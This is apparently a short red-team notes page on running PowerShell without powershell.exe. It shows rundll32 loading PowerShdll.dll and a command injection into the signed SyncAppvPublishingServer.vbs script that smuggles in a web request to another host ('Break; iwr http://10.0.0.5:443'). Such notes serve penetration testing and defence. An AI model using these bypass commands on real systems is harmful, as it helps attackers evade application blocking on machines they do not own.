 # Powershell Without Powershell.exe

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## PowerShdll

```text
rundll32.exe PowerShdll.dll,main
```

![](../.gitbook/assets/pwshll-rundll32.gif)

Note that the same could be achieved with a compiled .exe binary from the same project, but keep in mind that .exe is more likely to run into whitelisting issues.

## SyncAppvPublishingServer

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```text
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

![](../.gitbook/assets/pwshll-syncappvpublishingserver.png)

![](../.gitbook/assets/pwshll-syncappvpublishingserver.gif)

{% embed data="{\"url\":\"https://github.com/p3nt4/PowerShdll\",\"type\":\"link\",\"title\":\"p3nt4/PowerShdll\",\"description\":\"Run PowerShell with rundll32. Bypass software restrictions. - p3nt4/PowerShdll\",\"icon\":{\"type\":\"icon\",\"url\":\"https://github.com/fluidicon.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://avatars0.githubusercontent.com/u/19682240?s=400&v=4\",\"width\":345,\"height\":345,\"aspectRatio\":1}}" %}

